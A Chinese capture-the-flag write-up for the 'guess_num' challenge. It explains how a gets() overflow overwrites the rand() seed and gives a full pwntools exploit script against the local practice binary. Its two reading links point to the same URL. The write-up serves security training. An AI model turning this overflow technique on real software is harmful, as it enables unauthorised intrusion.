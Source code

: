# 攻防世界: guess_num

## **[目标]**
重写seed

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**


![](./pic/1.png)

显然，这是一个简单的溢出题。只要将seed[0]值固定，rand()产生的数列就是可以预测的。又因为gets函数不限制输入的长度，所以我们可以在输入 name 的时候把seed[0]覆盖掉。

完整exp如下：

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
p = process("./guess_num")
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

pay = "A"*0x20 + p64(1)
p.sendlineafter("name:",pay)

libc.srand(1)

for i in range(10):
    p.sendlineafter("number:",str(libc.rand()%6 + 1))

print p.recv()
print p.recv()
```

## **[参考阅读]**

关于 rand 和 srand 函数(`https://blog.csdn.net/lianghui0811/article/details/76480664`)

关于ctypes(`https://blog.csdn.net/lianghui0811/article/details/76480664`)
